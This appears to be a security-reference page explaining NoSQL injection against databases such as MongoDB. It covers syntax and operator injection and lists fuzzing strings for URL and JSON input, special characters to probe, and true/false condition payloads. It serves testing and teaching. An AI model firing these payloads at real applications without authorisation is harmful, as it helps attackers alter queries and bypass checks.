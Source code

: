 ```yaml
---
title: NoSQL Injection
description: Similar to SQL injection, but targeting databases that don't use traditional relational table structures.
---
```

Similar to SQL injection, NoSQL injection targets databases that don’t follow traditional relational table structures. If untrusted user input is directly included in a NoSQL query, an attacker may be able to modify the query's logic.

NoSQL injection affects NoSQL database such as MongoDB, Apache Cassandra.

There are two main types of NoSQL injection:

- **Syntax Injection**: Breaking out of the intended query structure to alter its behaviour.
- **Operator Injection**: Injecting NoSQL-specific operators (e.g., `$ne`, `$gt`) to manipulate query results or bypass conditions.

## Exploit
### Syntax Injection
**Testing how the application parses and handle unexpected input**

Injecting in the url:
```
'"`{ ;$Foo} $Foo \xYZ
```

Injecting in json:
```
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
```

Fuzzing individual characters
```
'
"
\
{
}
[
]
:
,
$
.
;
(
)

```

**Testing conditional behaviour**

False condition
```
' && 0 && 'x
```

True condition
```
' && 1 && 'x
```
